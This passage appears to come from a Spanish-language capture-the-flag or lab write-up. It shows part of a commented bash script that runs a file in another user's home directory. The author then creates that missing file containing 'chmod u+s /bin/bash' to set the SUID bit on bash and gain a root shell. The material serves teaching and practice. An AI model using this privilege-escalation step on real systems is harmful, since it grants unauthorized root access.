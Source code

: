 ```sh
    echo "Directorio creado exitosamente."
    # Imprime un mensaje indicando que el directorio fue creado exitosamente.
else
    # Si hubo un error (código de salida diferente de 0)
    echo "El directorio ya existe o no se pudo crear."
    # Imprime un mensaje indicando que hubo un problema al crear el directorio.
fi

# ------------------------------------------------------------------------------
# Limpieza
# ------------------------------------------------------------------------------
# En esta sección, eliminamos archivos y directorios creados durante la ejecución del script.
# Esto ayuda a mantener el sistema limpio después de la ejecución del script.
# ------------------------------------------------------------------------------
echo "Limpiando entorno..."
# Imprime un mensaje indicando que se está realizando la limpieza.

# Eliminar archivos y directorios creados durante la ejecución
rm -rf "$WORK_DIR"
# Elimina el directorio de trabajo y todo su contenido de manera recursiva y forzada.

# ------------------------------------------------------------------------------
# Fin del Script
# ------------------------------------------------------------------------------
# Esta es la última sección del script. Aquí concluimos la ejecución del script.
# ------------------------------------------------------------------------------
echo "Proceso completado."
# Imprime un mensaje indicando que el proceso del script ha sido completado.

# Salir del script con un código de estado exitoso
exit 0
# Finaliza la ejecución del script y retorna un código de estado 0, indicando éxito.
```

Ejecuta todo eso, pero hay una linea interesante.

```sh
# Ruta del script que deseas ejecutar
SCRIPT_PATH="/home/deamon/good"

# Ejecutar el script
bash "$SCRIPT_PATH"
```

Por lo que vemos esta ejecutando todo el rato un script en la `home` de `deamon`, pero si vamos alli no hay nada, por lo que lo crearemos nosotros.

> good

```shell
#!/bin/bash

chmod u+s /bin/bash
```
